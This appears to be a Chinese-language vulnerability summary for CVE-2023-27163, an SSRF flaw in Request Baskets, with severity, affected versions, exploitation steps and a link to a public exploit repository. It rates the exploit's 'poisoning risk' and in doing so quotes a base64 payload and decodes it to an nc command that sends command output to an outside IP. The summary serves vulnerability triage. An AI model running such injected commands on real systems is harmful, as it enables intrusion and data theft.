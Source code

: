 ## CVE-2023-27163-Request-Baskets-SSRF

**漏洞编号:** CVE-2023-27163

**漏洞类型:** SSRF (服务器端请求伪造)

**影响应用:** Request Baskets

**危害等级:** 中危，可能导致敏感信息泄露，内网端口扫描，访问内部服务

**影响版本:** <= 1.2.1

**利用条件:** 需要网络访问，目标应用运行request-baskets <= 1.2.1，并允许创建和访问basket。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2023-27163是Request Baskets 1.2.1版本及以下版本中存在的一个服务器端请求伪造（SSRF）漏洞。攻击者可以通过构造恶意的API请求，利用`/api/baskets/{name}`组件发起对内部或外部资源的请求，从而读取敏感信息或攻击其他内部服务。

**有效性分析：**
根据搜索引擎结果和漏洞库信息，该漏洞的POC已公开。提供的POC代码看起来不像是直接攻击`/api/baskets/{name}`这个SSRF端点，而是尝试利用登录页面进行命令注入。这可能是在没有权限创建basket的情况下进行的尝试，或者该实例的配置允许登录。

**投毒风险分析：**
给定的POC代码尝试使用`echo ... | base64 -d | sh`来执行命令，这是一种常见的反弹shell的方式。username参数的值被拼接成了一个shell命令，该命令将一段base64编码的字符串解码后通过sh执行。如果攻击成功，则会在目标服务器上执行任意命令。因此，**存在投毒风险**。`echo` 和 `base64` 是Linux常见的命令，payload部分`aWR8bmMgMTkyLjE2OC40NS4yNDkgODA=`解码后是`id|nc 192.168.45.249 80`，这明显是尝试执行命令并且反弹shell。因此存在投毒风险。由于 POC 本身就是一个反弹shell的尝试，因此判定投毒概率为 10%，主要是考虑命令注入点不一定是预期点。

**利用方式：**
1.  攻击者找到存在漏洞的Request Baskets实例。
2.  攻击者利用`/api/baskets/{name}`组件，构造包含恶意URL的请求。
3.  Request Baskets服务器解析该URL并向目标服务器发起请求。
4.  攻击者可以读取目标服务器返回的内容，或者利用目标服务器的漏洞进行进一步的攻击。根据本次提供的漏洞利用代码，是尝试通过登录界面的username参数进行命令注入，来获取权限后进行利用。

**项目地址:** [btar1gan/exploit_CVE-2023-27163](https://github.com/btar1gan/exploit_CVE-2023-27163)

**漏洞详情:** [CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163)